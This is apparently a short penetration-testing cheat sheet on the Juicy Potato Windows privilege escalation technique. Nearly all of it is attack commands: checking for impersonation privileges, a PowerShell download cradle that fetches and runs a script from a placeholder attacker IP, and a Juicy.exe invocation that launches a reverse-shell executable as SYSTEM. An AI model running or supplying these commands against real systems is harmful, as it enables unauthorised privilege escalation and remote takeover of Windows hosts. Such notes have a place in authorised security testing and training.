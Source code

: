 ```yaml
---
description: Potato is yummy
---
```


# Juicy Potato

Enumerate either the`SeImpersonate` or `SeAssignPrimaryToken` privileges

```bash
whoami /priv
```

After identifying the appropriate privileges, upload the [Juicy Potato binary](https://github.com/ohpe/juicy-potato) to the host. Then run the following command to enumerate valid CLSID's for use with JuicyPotato&#x20;

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://[IP]/GetCLSID.ps1')
```

After enumerating a valid CLSID we can run the following command:&#x20;

```powershell
.\Juicy.exe -t t -p C:\Windows\Tasks\reverse.exe -l 5837 -c {bb6df56b-cace-11dc-9992-0019b93a3a84}
```
